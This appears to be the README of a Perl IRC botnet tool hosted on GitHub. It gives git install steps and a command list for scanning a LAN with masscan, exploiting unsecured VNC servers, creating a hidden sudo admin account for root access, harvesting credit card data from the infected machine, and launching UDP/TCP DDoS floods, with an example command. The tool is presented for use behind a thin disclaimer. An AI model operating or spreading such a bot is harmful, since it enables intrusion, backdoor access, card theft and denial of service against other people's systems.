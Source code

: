 # I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.

This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.
The bot can also search for credit card informations in the computer that the bot is running.
There is also a DDoS module made in Python, for taking out the target from the network.

# ---INSTALLATION---

## git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
## cd PerlIRCSSL_VNCbypass
## ./configure

# ----COMMANDS----
# NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# ----------------
# NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
# ----------------
# Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 

# This will scan computer for credit card info and report in the channel. (REMOVED, will see if I put it back on later...)
@.ccplz
# This will give you the current running version. 
@.version

# DDoS Tool has been fixed and hits hard!
# @.ddos ip port UDP?y/n times threads
Example: @.ddos 127.0.0.1 8080 n 10000 1000 
# This kills the running ddos.
@.ddos.stop

# ---NOTE---
# In order for bot to work you need to be operator in the channel, it also must be registered with services.
# Follow the step-by-steps installations and you are done.
# ENJOY!

